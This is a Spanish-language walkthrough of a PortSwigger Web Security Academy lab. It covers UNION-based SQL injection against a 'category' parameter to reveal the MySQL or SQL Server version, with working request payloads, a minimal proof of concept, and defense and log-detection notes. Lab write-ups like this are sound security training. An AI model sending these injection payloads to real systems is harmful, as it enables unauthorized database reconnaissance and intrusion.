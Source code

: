 # SQL injection attack, querying the database type and version on MySQL and Microsoft

**Categoría:** SQLi
**Dificultad:** Practitioner
**Fuente:** PortSwigger Web Security Academy

---

# 🎯 Resumen

* **Objetivo del lab**: Usar un ataque UNION para extraer la cadena de versión de la base de datos.
* **Vulnerabilidad principal**: SQL Injection en parámetro `category`.
* **Impacto esperado**: Exposición de información sensible de la base de datos (tipo y versión exacta).

---

# 🧭 Reconocimiento

* **Parámetro vulnerable**: `category` en `/filter`.
* **Pruebas iniciales**:

  ```http
  GET /filter?category=Gifts'              # Rompe → inyección probable
  GET /filter?category=Gifts' order by 100-- -   # Rompe → demasiadas columnas
  GET /filter?category=Gifts' order by 2-- -     # 200 OK → 2 columnas
  ```
* **Hipótesis**: Motor compatible con funciones `@@version` y `version()` (MySQL/Microsoft SQL Server).

---

# 🛠️ Explotación paso a paso

## Paso 1 – Confirmar número de columnas

* **Qué hago**: Uso `ORDER BY`.
* **Por qué funciona**: Al pedir más columnas de las reales, la query falla.
* **Evidencia**: `order by 2` funciona, por tanto hay 2 columnas.

## Paso 2 – UNION SELECT básico

* **Qué hago**: `UNION SELECT 'TEST','TEST'-- -`
* **Por qué funciona**: Si aparece en pantalla, significa que controlo la salida.
* **Evidencia**: El texto *TEST* se muestra en la web.

## Paso 3 – Extraer versión con `@@version`

* **Qué hago**:

  ```http
  GET /filter?category=Gifts' union select @@version,'TEST'-- -
  ```
* **Por qué funciona**: En MySQL y Microsoft SQL Server, `@@version` devuelve la versión de la base de datos.
* **Evidencia**: Devuelve `8.0.42-0ubuntu0.20.04.1` → confirma MySQL.

## Paso 4 – Extraer versión con `version()`

* **Qué hago**:

  ```http
  GET /filter?category=Gifts' union select version(),'TEST'-- -
  ```
* **Por qué funciona**: En MySQL existe la función `version()` que devuelve la cadena de versión.
* **Evidencia**: Devuelve la misma versión → confirmación adicional.

---

# ✅ PoC mínima

```http
GET /filter?category=Gifts' union select @@version,'TEST'-- -
Host: <lab-id>.web-security-academy.net
```

Esto muestra la versión exacta de MySQL/Microsoft SQL Server.

---

# 🔒 Defensa

* **Causas**: Concatenación de entrada del usuario sin validación.
* **Detección en logs**:

  * Parámetros que incluyen `union select`, `@@version`, `version()`
  * Errores tras `'` en parámetros de URL
* **Mitigación recomendada**:

  * Consultas parametrizadas
  * Filtrar/validar entrada
  * Restringir funciones sensibles (`@@version`, `version()`) a usuarios de administración

---

# 📝 Notas y trampas

* **MySQL vs Oracle**:

  * En MySQL se puede usar `version()` o `@@version` sin necesidad de tabla dummy.
  * En Oracle se requiere `from DUAL`.
* **Microsoft SQL Server**: también soporta `@@version` pero devuelve una cadena mucho más larga con detalles del sistema operativo.
* El espacio tras `--` es importante: `-- -` para que lo interprete correctamente.

---

# 📚 Referencias

* [PortSwigger Lab – SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/union-attacks/lab-querying-database-version-mysql)
* [MySQL Documentation – version()](https://dev.mysql.com/doc/refman/8.0/en/information-functions.html#function_version)
* [Microsoft SQL Server – @@VERSION](https://learn.microsoft.com/en-us/sql/t-sql/functions/version-transact-sql)
* [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
